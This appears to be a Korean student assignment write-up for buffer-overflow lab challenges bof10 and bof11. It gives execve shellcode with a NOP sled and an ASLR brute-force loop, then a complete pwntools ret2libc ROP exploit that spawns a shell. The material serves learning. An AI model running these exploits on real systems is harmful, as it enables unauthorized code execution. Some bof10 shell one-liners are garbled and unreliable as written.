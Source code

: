 # 과제 

## BoF10
### 취약점 분석

![bof10_1](bof10_1.png)

bof10은 main함수로부터 argument를 받아 strcpy함수를 이용하여 buf에 저장하기 때문에 Overflow가 일어날 수 있다.

하지만 bufsitze가 shellcode가 들어갈 정도로 크지 않기 때문에 환경변수를 이용하여야 한다.

![bof10_2](bof10_2.png)

![bof10_3](bof10_3.png)

파일을 실행시켜 보았을때 SHELLCODE라는 환경변수가 없는 것을 확인했다.


다음과 같이 32bit용 Shellcode를 환경변수 SHELLCODE안에 저장한다.

    \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80

![bof10_4](bof10_4.png)

프로그램을 실행시켰을때 ASLR기법이 적용되어 메모리 주소가 계속 변하는 것을 확인할 수 있다.

![bof10_5](bof10_5.png)

이럴때는 무작위로 때려박아 내가 원하는 shellcode가 실행될 때 까지 돌려야 한다.

그 확률을 높이기 위하여 NOP코드 13000개를 추가한다.

그럼 13000개의 NOP코드중 어느곳에 떨어지든 Shellcode를 실행시킬 수 있기 때문에 Shell이 실행될 확률이 높아진다.



    export SHELLCODE="`python -c '\x90'*13000+'print"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"'`"

while do 문을 이용하여 권한을 얻을때 까지 반복한다.
    
    while true; while true; do ./bof10 `python -c "print 'a'*20 + '\x94\x85\xbc\xff'"`;done do;

![bof10_6](bof10_6.png)

## BoF11
### 취약점 분석

![bof11_1](bof11_1.png)

bof11은 fgets함수를 이용하여 데이터를 입력받아 저장하기 때문에 Overflow가 발생할 수 있다. 

 bof11은 NX bit가 적용되어 있고 ASLR이 적용되어 있기 때문에 단순하게 RTL방식을 사용해서는 권한을 가져올 수 없다. 

![bof11_2](bof11_2.png)

하지만 system에서 printf함수의 주소가 유출되는 것을 확인할 수 있다.

printf의 주소를 알 수 있으면 system함수,pop rdi; ret, /bin/sh 문자열의 상대 거리를 알 수 있다.

printf주소 - system함수 주소

printf주소 - pop rdi;ret 주소

printf주소 - /bin/sh 문자열 주소
를 통하여 상대거리를 구한뒤

프로그램내에서 printf주소 - 상대거리를 계산해 원하는 주소값을 찾을 수 있다.

--------------------------------------------------------
먼저 overflow가 일어나는 크기를 구한다. 18byte

![bof11_3](bof11_3.png)

![bof11_4](bof11_4.png)

---

프로그램을 실행시킨 후  printf 함수와 system함수의 주소값을 빼 상대거리를 구한다. 

0x10470

![bof11_5](bof11_5.png)

---

![bof11_8](bof11_8.png)

    ROPgadget.py --binary //tmp/2.23/lib/libc.so.6 | grep 'pop rdi ; ret'
명령어를 통하여 pop rdi; ret 명령어의 offset을 구한 뒤

![bof11_6](bof11_6.png)

프로그램 내부에서 실제 pop rdi; ret값 즉 libc시작 주소와 더한 값을 printf함수와 빼준다

0x346fe

--------------------------------------------------------
search-pattern /bin/sh를 이용하여 /bin/sh 문자열의 주소를 찾은 뒤 printf 함수와의 상대 거리를 구한다.

![bof11_7](bof11_7.png)

/bin/sh 주소의 값이 더 크기 때문에 계산에 편의를 위하여 큰값에서 작은값을 빼준다.

모든 주소의 상대 거리를 구했기 때문에 python 프로그램을 작성해준다.

<details>
<summary>Python 코드</summary>
<div markdown="1">

```python
from pwn import*

# process함수를 이용하여 실행하고자 입력
p = process('./bof11')

# recvuntil함수를 이용하여 printf() address : 까지 받아와 버린다.
p.recvuntil('printf() address :')

#남은 printf의 주소값만을 저장한다.
printf_addr = p.recvuntil('\n')[:-1]

#recvuntil을 이용하여 받아온 정보는 Byte이기 때문에 .decode()를 이용하여 변환한다.
printf_addr =printf_addr.decode()

#변환된 값은 문자열이기 때문에 정수형태로 바꿔 주소를 계산을 해준다.
system_addr = int(printf_addr,16) - 0x10470
binsh_addr =int(printf_addr,16) + 0x137557
poprdi_ret = int(printf_addr,16) - 0x346fe



# 얻어낸 정보를 이용하여 Payload를 작성한다.

# p64를 이용하여 변환된 값은 byte이기 때문에 버퍼를 채울 쓰레기 값들도 byte로 변환시켜준다.
payload = b'x'*18

#64bit little endian방식으로 payload를 추가해준다.
payload += p64(poprdi_ret)
payload += p64(binsh_addr)
payload += p64(system_addr)

#payload를 보내고 interactive함수를 이용하여 payload를 전달한다.
p.send(payload)
p.interactive()
```

</div>
</details>


다음과 같이 작성된 python코드를 실행시키면

![final](bof11_9.png)

bof12의 권한을 가져온 것을 확인할 수 있다.
